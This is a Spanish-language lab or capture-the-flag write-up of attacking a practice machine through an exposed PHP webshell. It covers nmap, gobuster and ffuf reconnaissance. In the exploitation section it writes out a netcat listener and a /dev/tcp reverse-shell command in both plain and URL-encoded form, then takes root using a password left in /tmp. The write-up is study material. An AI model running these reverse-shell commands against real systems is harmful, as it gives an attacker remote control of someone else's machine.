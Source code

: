 ## Reconocimiento
---
La página nos da la siguiente información:

Realizamos un [[nmap]] básico de reconocimiento de todos los puertos abiertos de la máquina
![[Pasted image 20240710003455.png]]

Ahora realizamos un [[nmap]] para conocer la versión y cualquier script que tiene el puerto 80 abierto que tiene la [[IP]].
![[Pasted image 20240710003517.png]]


Vemos que no hay nada extraño dentro del puerto y lo que se procede a realizar es una inspección de la web.

No nos muestra nada valioso, procedemos a buscar directorios con [[gobuster]].
![[Pasted image 20240710003547.png]]

Verificamos dos archivos importantes "shell.php" y "warning.html". Primero revisaremos warning.html para después verificar la otra respectivamente.

La web nos muestra el siguiente label que nos dice que existe un parámetro que es específico que se ha utilizado para el desarrollo de la webshell (/shell.php).
![[Pasted image 20240710003614.png]]

Con la afirmación anterior estamos asumiendo que se está utilizando la siguiente estructura para la [[webshell]].
![[Pasted image 20240710003648.png]]

Como podemos ver esta pide un parámetro en el comando y es el que no recuerda entonces lo que procederemos a realizar es un fuzzing a la web con [[ffuf]].

Cuando corremos el fuzzing al inicio vemos que todos los estados de todas las peticiones son de error 500 (lo cual **indica que el servidor ha encontrado una condición inesperada que le impidió cumplir con la solicitud**) entonces en el comando [[ffuf]] agregaremos el parámetro -fc 500 para filtrar los estados mencionados.
![[Pasted image 20240710003721.png]]

Ahora que ya contamos con el parámetro necesitamos obtener una reverseshell entonces realizaremos lo siguiente:

## Explotación
---
Nos pondremos en escucha con `nc -lvnp 9001`

Luego, necesitamos una revershell que nos funcione. En este caso utilizaré la siguiente ```sh -i >& /dev/tcp/192.168.0.17/9001 0>&1```. Corremos y vemos que no está interpretando la revershell. La encodeamos en formato URL y nos sale lo siguiente `sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.17%2F9001%200%3E%261`. Nos sigue sin funcionar entonces probamos poniendo todo entre comillas y agregarle un `bash -c` al incio del comando. Todo unido nos daría lo siguiente `bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.17%2F9001%200%3E%261"`. Obtenemos la [[reverse shell]]!!
![[Pasted image 20240710003818.png]]

Una vez con la shell generamos una [[shell interactiva]].

## Escalada de privilegios
---
Tuvimos una pista al inicio de la web entonces entramos a /tmp y vemos que existe un txt con la contraseña root.
![[Pasted image 20240710003846.png]]

**Y YA SOMOS ROOT 😄 **




